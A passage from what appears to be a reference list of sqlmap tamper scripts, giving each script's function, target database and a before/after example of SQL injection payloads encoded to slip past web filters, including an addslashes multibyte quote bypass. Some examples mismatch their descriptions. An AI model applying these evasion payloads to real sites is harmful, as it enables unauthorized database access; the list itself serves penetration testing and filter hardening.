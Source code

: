 example
~~~
1 AND 1=1 ==> 1%23%0AAND%23%0A9227=9227
~~~
## space2mysqlblank.py
Function: Space ==> %2B, %0D, %0C
Platform: Mysql5.1
example
~~~
SELECT id FROM users ==> SELECT%0Bid%0DFROM%0Cusers
~~~
## space2mysqldash.py
Function: Space==> –%0A
Platform: Mssql、Mysql
example
~~~
1 AND 9227=9227 ==> 1 — %0AAND — %0A9227=9227
~~~
## space2plus.py
Function: Space ==> +
Platform: All
example
~~~
SELECT id FROM users ==> SELECT+id+FROM+users
~~~
## space2randomblank.py
Function: Space ==> %0D, %0A, %0C, %09
Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers
~~~
## symboliclogical.py
Function: and ==> %26%26
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 %26%26 ‘1’=’1
~~~
## thinkphp.py
Platform: Mysql
## unionalltounion.py
Function: Replace All is empty
Platform: All
example
~~~
-1 UNION ALL SELECT ==> -1 UNION SELECT
~~~
## unmagicquotes.py
Function: ‘ ==> %df%27
Platform: Mysql magic_quotes/addslashes
example
~~~
1' AND 1=1 ==> 1%bf%27 —
~~~
## uppercase.py
Function: Lower case to upper case